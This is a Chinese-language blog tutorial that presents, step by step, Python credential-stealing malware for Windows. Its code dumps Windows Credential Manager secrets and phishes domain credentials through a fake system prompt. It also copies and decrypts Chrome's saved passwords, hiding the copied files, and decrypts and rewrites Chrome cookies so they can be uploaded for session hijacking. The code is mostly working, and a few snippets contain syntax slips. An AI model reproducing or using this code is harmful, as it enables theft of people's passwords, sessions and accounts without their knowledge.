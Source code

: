 ```yaml
---
title: 窃取凭据与cookie
description: 使用python窃取windows凭据与chrome cookie.
categories:
 - python
tags: 
 - python
 - 渗透测试
---
```


## 一、环境准备

`python3`

`pip install pypiwin32`

## 二、导入所需要包

导入所需包和模块，并创建一个常量，用来调用某些凭据管理器相关功能时使用。

```python
import os
import io
import sqlite3
import shutil
import win32cred
import win32crypt
import win32api
import win32con
import pywintypes

CRED_TYPE_GENERIC = win32cred.CRED_TYPE_GENERIC
```

## 三、从windows凭据管理器中存储通用凭据

通用凭据是非域凭据。如果你在windows上使用Git并通过GitHub，Bitbucket，Gitlab等进行身份验证，则凭据将存储在CredMan中。

首先导入枚举和读取凭据所需的功能。
```python
def dump_credsman_generic():
    CredEnumerate = win32cred.CredEnumerate
    CredRead = win32cred.CredRead
```
然后，我们枚举存储在凭据管理器中的凭据，并将其放入`creds`变量中，该变量是一个元组。
```python
try:
    creds = CredEnumerate(None, 0)  # 枚举凭证
except Exception:  # 避免在任何异常情况下崩溃
    pass
```
现在，我们要遍历每个凭据集，再添加到`credentials`列表中。
```python
credentials = []

for package in creds:
    try:
        target = package['TargetName']
        creds = CredRead(target, CRED_TYPE_GENERIC)
        credentials.append(creds)
    except pywintypes.error:
        pass
```
创建一个内存文本流，避免在磁盘上写文件，遍历`credentials`变量并将所需的数据写入文本流。
```python
credman_creds = io.StringIO()  # 内存中文本流

for cred in credentials:
    service = cred['TargetName']
    username = cred['UserName']
    password = cred['CredentialBlob'].decode('utf-8','ignore')

    credman_creds.write('Service: ' + str(service) + '\n')
    credman_creds.write('Username: ' + str(username) + '\n')
    credman_creds.write('Password: ' + str(password) + '\n')
    credman_creds.write('\n')

return credman_creds.getvalue()
```

![3_1](https://yui77111.github.io/assets/images/article/python/3_1.png)

## 四、询问提示域凭据

通过社工方式，用`CredUIPromptForCredentials()`功能来显示一个对话框来询问用户，从而欺骗用户向我们提供其域凭据。

```python
def ask_domain_credentials():
    CredUIPromptForCredentials = win32cred.CredUIPromptForCredentials

    creds = []

    try:
        creds = CredUIPromptForCredentials(os.environ['userdomain'], 0, os.environ['username'], None, True, CRED_TYPE_GENERIC, {})
    except Exception:
        pass
    return creds
```

![3_2](https://yui77111.github.io/assets/images/article/python/3_2.png)

返回如下格式

![3_3](https://yui77111.github.io/assets/images/article/python/3_3.png)

## 五、存储保存在Chrome中的密码

如果在保存凭据时未设置主密码，则访问数据库中的加密`Blob`可以使用`CrytUnprotectData`解密(因为windows上的Chrome使用`CrytUnprotectData WinAPI`函数对其进行加密，[参考](https://chromium.googlesource.com/chromium/chromium/+/master/chrome/browser/password_manager/encryptor_win.cc))，只要它在当前用户上下文中完成即可。这意味着你不能只是获取数据库并在具有不同用户的另一台计算机上打开它。
Chrome密码存在Login Data在%localappdata%\Google\User Data\Default\目录中名为Login Data数据库中。可以用DB Brower看到数据库的结构。

![3_4](https://yui77111.github.io/assets/images/article/python/3_4.png)

我们想查询：`action_urls`，`username_value`和`password_value`。字段`password_value`包含一个加密的`Blob`，我们将使用以下代码对其进行解密。
我们先制作数据库文件的本地副本，否则如果当Chrome正在运行，它将带有一个句柄并且数据库将被锁定。

```python
try:
    login_data = os.environ['localappdata'] + '\\Google\\Chrome\\User Data\\Default\\Login Data'
    shutil.copy2(login_data, './Login Data')  # 复制数据库到当前目录
    win32api.SetFileAttributes('./Login Data',win32con.FILE_ATTRIBUTE_HIDDEN)  # 在文件操作过程中不可见
except Exception:
    pass

chrome_credentials = io.StringIO()
```
现在，我们使用sqlite3库打开Login Data数据库的本地副本，并查询用户保存凭据。
```python
try:
    conn = sqlite3.connect('./Login Data', )                                        # 连接数据库
    cursor = conn.cursor()                                                          # 创建一个游标来获取数据
    cursor.execute('SELECT action_url, username_value, password_value FROM logins') # 查询
    results = cursor.fetchall()                                                     # 获取数据
    conn.close()                                                                    # 关闭数据库文件，使其不会被进程锁定
    os.remove('Login Data')  
"""
```
遍历获取到的数据并使用WinAPI函数`CryptUnprotectData`解密密码，最后返回保存好的内存中的文本流。
```python
    for action_url, username_value, password_value in results:
        password = win32crypt.CryptUnprotectData(password_value, None, None, None, 0)[1] # 使用CryptUnprotectData解密
        if password:                                                                       # 将凭据写进内存中的文本流
            chrome_credentials.write('URL: ' + action_url + '\n')
            chrome_credentials.write('Username: ' + username_value + '\n')
            chrome_credentials.write('Password: ' + str(password) + '\n')
            chrome_credentials.write('\n')
    return chrome_credentials.getvalue()                                                   # 返回内存中的文本流

except sqlite3.OperationalError as e:
    print(e)
    pass

except Exception as e:
    print(e)
```

![3_5](https://yui77111.github.io/assets/images/article/python/3_5.png)

## 六、窃取Chrome Cookie

Chrome Cookie与存储在Chrome 的密码一样，为同目录下的Cookies文件并用`CryptProtectData`加密。但不同的是我们使用解密的cookie窃取整个数据库文件重写数据库内部的数据。然后，如果会话在服务器上尚未过期或用户尚未注销，则可以将该数据库上载到远程服务器，并在站点中用于进行身份验证。

```python
login_data = os.environ['localappdata'] + '\\Google\\Chrome\\User Data\\Default\\Cookies'  # cookies文件路径
shutil.copy2(login_data, './Cookies')  # 复制到当前路径
win32api.SetFileAttributes('./Cookies', win32con.FILE_ATTRIBUTE_HIDDEN)
try:
    conn = sqlite3.connect('./Cookies')  # 连接
    cursor = conn.cursor()
    cursor.execute('SELECT host_key, name, value, encrypted_value FROM cookies')  # 查询
    results = cursor.fetchall()  # 获取

    # 解密
    for host_key, name, value, encrypted_value in results:
        decrypted_value = win32crypt.CryptUnprotectData(encrypted_value, None, None, None, 0)[1].decode()

        # 使用解密的值更新文件
        cursor.execute("UPDATE cookies SET value = ?, has_expires = 1, expires_utc = 99999999999999999,is_persistent = 1, is_secure = 0 WHERE host_key = ? AND name = ?"，(decrypted_value, host_key, name));

    conn.commit()  # 保存改变
    conn.close()  # 关闭文件，使其不被进程锁定

except Exception as e:
    print(e)
    pass
```

原cookies文件

![3_6](https://yui77111.github.io/assets/images/article/python/3_6.png)

新生成cookies文件

![3_7](https://yui77111.github.io/assets/images/article/python/3_7.png)


源代码已上传致[gayhub](https://github.com/yui77111/python-malware/blob/master/credentials and cookies/main.py)